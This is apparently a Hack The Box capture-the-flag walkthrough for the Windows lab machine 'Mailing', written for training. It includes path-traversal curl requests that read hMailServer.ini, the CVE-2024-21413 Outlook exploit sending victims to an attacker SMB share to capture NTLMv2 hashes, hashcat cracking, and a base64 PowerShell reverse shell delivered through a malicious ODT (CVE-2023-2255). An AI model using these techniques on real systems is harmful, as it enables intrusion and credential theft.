# HTB - Mailing

**IP Address:** `10.10.11.14`  
**OS:** Windows  
**Difficulty:** Medium  
**Tags:** #SMTP, #hMailServer, #CVE-2024-21413, #Responder, #Hashcat, #WinRM, #LibreOfficeExploit

---
## Synopsis

Mailing is a Windows machine that simulates a corporate email environment.  
The exploitation path combines **LFI in PHP**, **credential extraction from hMailServer**, and an **Outlook RCE (CVE-2024-21413)** to capture NTLM hashes.  
Privilege escalation is achieved by exploiting a vulnerable **LibreOffice** installation to obtain SYSTEM access.

---
## Skills Required

- Windows enumeration and SMB basics  
- Understanding of email protocols (SMTP, POP3, IMAP)  
- Familiarity with hash cracking (NTLMv2, Hashcat)  
- Experience with client-side exploitation (Office/LibreOffice)  

## Skills Learned

- Exploiting **LFI** in PHP web applications  
- Extracting sensitive data from **hMailServer configuration**  
- Using **Responder** to capture NTLMv2 hashes via Outlook RCE  
- Privilege escalation via **malicious ODT file exploiting CVE-2023-2255**  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

```bash
ping -c 1 10.10.11.14
```


The host responds, confirming it is reachable.

---
### 1.2 Port Scanning

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.14 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery (already confirmed alive)  
- `-oG`: Output in grepable format



Extract open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

```bash
nmap -p25,80,110,135,139,143,445,465,587,993,5040,5985,7680,47001,49664,49665,49666,49667,49668,58648 -sC -sV 10.10.11.14 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format  

```bash
cat targeted -l java
```



**Finding:**

| Port   | Service        | Version / Info                                                                 |
|--------|----------------|--------------------------------------------------------------------------------|
| 25     | SMTP           | hMailServer smtpd — AUTH LOGIN PLAIN, HELP                                      |
| 80     | HTTP           | Microsoft IIS httpd 10.0 — Title: Did not follow redirect to http://mailing.htb |
| 110    | POP3           | hMailServer pop3d                                                              |
| 135    | MSRPC          | Microsoft Windows RPC                                                          |
| 139    | NetBIOS-SSN    | Microsoft Windows netbios-ssn                                                  |
| 143    | IMAP           | hMailServer imapd — IMAP4rev1 OK CAPABILITY NAMESPACE                          |
| 445    | SMB            | Microsoft Windows SMB — message signing enabled but not required               |
| 465    | SMTPS          | hMailServer smtpd — STARTTLS, AUTH LOGIN PLAIN, HELP                           |
| 587    | SMTP           | hMailServer smtpd — STARTTLS, AUTH LOGIN PLAIN, HELP                           |
| 993    | IMAPS          | hMailServer imapd — IMAP4rev1 OK CAPABILITY NAMESPACE                          |
| 5040   | HTTP           | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                        |
| 5985   | HTTP           | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                        |
| 7680   | HTTP           | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                        |
| 47001  | MSRPC          | Microsoft Windows RPC                                                          |
| 49664  | MSRPC          | Microsoft Windows RPC                                                          |
| 49665  | MSRPC          | Microsoft Windows RPC                                                          |
| 49666  | MSRPC          | Microsoft Windows RPC                                                          |
| 49667  | MSRPC          | Microsoft Windows RPC                                                          |
| 49668  | MSRPC          | Microsoft Windows RPC                                                          |
| 58648  | MSRPC          | Microsoft Windows RPC                                                          |

---
## 2. Web Enumeration

We identify the domain **mailing.htb** and a web server running on **IIS10.0**.  
Add the host entry to `/etc/hosts`:

```bash
sudo nano /etc/hosts
```


Users identified on the website:

- Ruy Alonso (IT Team)  
- Maya Bendito (Support Team)  
- Gregory Smith (CEO)  

Checking SMB shares:

```bash
crackmapexec smb 10.10.11.14
crackmapexec smb 10.10.11.14 --shares
smbclient -L 10.10.11.14 -N
```



SMB enumeration attempts returned no useful results.
The `Download Instructions` button points to:

```
http://mailing.htb/download.php?file=instructions.pdf
```

This may indicate an **LFI vulnerability**. Testing with Gobuster for php files:

```bash
gobuster dir -u http://mailing.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php
```



---
## 3. LFI & Credential Extraction

Since this is not a Domain Controller and the necessary ports are not open, we cannot confirm if the users we discovered earlier are valid.  

Looking back at the scan, we see several ports running the **hMailServer** service.  
Given its recurrence, this service is likely important, so we should try to locate its configuration files.  
We can approach this in different ways:  
- Using **BurpSuite**  
- Manually with **curl**  

In this case, I chose the manual approach.  

Searching in Google we find where **hMailServer** stores its files by default:  



Let’s try some requests to see what we get:  

```bash
curl -s -X GET 'http://mailing.htb/download.php?file=C:\\Program Files\hMailServer\Data'
curl -s -X GET 'http://mailing.htb/download.php?file=../../../../../../Program Files\hMailServer\Data'
curl -s -X GET 'http://mailing.htb/download.php?file=..\..\..\..\..\..\..\Program Files\hMailServer\Data'
curl -s -X GET 'http://mailing.htb/download.php?file=..\..\..\..\..\..\..\Program+Files\hMailServer\Data'
curl -s -X GET 'http://mailing.htb/download.php?file=..\..\..\..\..\..\..\Program%20Files\hMailServer\Data'
```

![[curl.png]]

After several attempts we did not retrieve anything useful.  
However, searching again we find another reference indicating a different path that aims to `server.ini`:



We then test this new location, making sure to encode spaces with `%20` and properly closing the x86 parenthesis:

```bash
curl -s -X GET 'http://mailing.htb/download.php?file=..\..\..\..\program%20files%20(x86)\hMailServer\Bin\hMailServer.ini'
```



Credentials retrieved:

- Administrator: `841bb5acfa6779ae432fd7a4e6600ba7`  
- Password: `homenetworkingadministrator`  

Cracked with CrackStation:

  


Testing with CrackMapExec:

```bash
crackmapexec smb 10.10.11.14 -u 'administrator' -p 'homenetworkingadministrator'
```



Although the credentials were not recognized over SMB, port 25 (SMTP) was open, allowing us to attempt authentication via Telnet:

```bash
telnet 10.10.11.14 25
```



---
## 4. Exploitation – Outlook RCE

Target vulnerable to **CVE-2024-21413**.  
Exploit: [xaitax/CVE-2024-21413](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability)

Clone & execute:

```bash
git clone https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git
```

  

Let’s review the required parameters for this exploit to function correctly:

``` bash
python3 CVE-2024-21413.py --s
```



We have all information except the `recipient` user.
Looking again the web, in the `instruction` files appears this screenshot:



The mail from image is `maya@mailing.htb`. Let´s use it as Recipient and check if exists:

``` bash
python3 CVE-2024-21413.py --server 10.10.11.14 --port 587 --username administrator@mailing.htb --password 'homenetworkingadministrator' --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.2\smbFolder\test" --subject 'Look ASAP'
```

We need the responder active to obtain the hashes:

```bash
sudo responder -I tun0
```



In my case, the hash had already been captured previously, so I retrieved it from the Responder logs:

```bash
cat /usr/share/responder/logs/SMB-NTLMv2-SSP-10.10.11.14.txt
```



Since all captured hashes are identical, we can extract one and save it to a file for cracking:



Now let’s crack the captured hash.  
First, we identify its type using **hashid**:

```bash
hashid hashes
```



The result shows it is a NetNTLMv2 hash. This confirms that the captured hash can be cracked offline without interacting with the target system.
Next, we use hashcat to check the supported hashmodes for NetNTLMv2:

```bash
hashcat --example-hashes | grep -i "netntlmv2" -B 5
```




Two possible modes are listed: 5600 (NetNTLMv2) and 27100 (NetNTLMv2 NT).
In this case, the correct one is 5600.

We proceed with the cracking attempt using the rockyou.txt wordlist:

```bash
hashcat -a 0 -m 5600 hashes /usr/share/wordlists/rockyou.txt -O
```



Recovered password:  
`maya : m4y4ngs4ri`

Validate & login:

```bash
crackmapexec winrm 10.10.11.14 -u 'maya' -p 'm4y4ngs4ri'
evil-winrm -i 10.10.11.14 -u 'maya' -p 'm4y4ngs4ri'
```

![[crackmapexec_maya.png]]

🏁 **User flag obtained**

---
## 5. Privilege Escalation

While exploring the user environment, we notice a folder named **Important Documents**.  
Whenever a file is uploaded here, it disappears after a few seconds, indicating that an automated process is interacting with it.  
This behavior suggests a possible opportunity to upload a **malicious file** that will be executed automatically.

Checking the installed software, we find that **LibreOffice 7.4.0.1** is present:



This version is outdated and vulnerable to [elweth-sec/CVE-2023-2255](https://github.com/elweth-sec/CVE-2023-2255).  
Although there are automated exploits available, we will perform the attack step by step to better understand the process.

First, we prepare a **PowerShell reverse shell payload** (`reverse.ps1`) from the **Nishang** framework.  
It is important to encode the payload in **UTF-16LE**, since this is required by Windows.



We then convert the payload to Base64 to avoid formatting issues:

```bash
cat payload | iconv -t utf-16le | base64 -w 0;echo
```



Next, we host the payload using a simple Python web server:



Now we generate a malicious .odt document with the payload embedded, using the exploit script for CVE-2023-2255:

```bash
python3 CVE-2023-2255.py --cmd 'cmd /c powershell -enc <BASE64_PAYLOAD>' --output exploit.odt
```



Finally, we upload the malicious exploit.odt file into the Important Documents folder.
After a few seconds, the file was automatically processed, triggering our payload and granting a reverse shell as SYSTEM:



We now have full control over the machine and can read the root flag:



🏁 Root flag obtained

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Web Enumeration** → Found LFI via `download.php`.  
2. **hMailServer.ini Disclosure** → Extracted Administrator password.  
3. **Outlook RCE (CVE-2024-21413)** → Captured Maya’s NTLMv2 hash.  
4. **Password Cracking** → Accessed Maya’s account via WinRM.  
5. **Privilege Escalation (CVE-2023-2255)** → Malicious ODT file exploited by LibreOffice.  

---
## Defensive Recommendations

- Validate and sanitize file paths in PHP apps to prevent **LFI**.  
- Encrypt and restrict access to **mail server configuration files**.  
- Patch **Microsoft Outlook** against CVE-2024-21413.  
- Patch **LibreOffice** to latest version.  
- Monitor & restrict **WinRM** usage.  
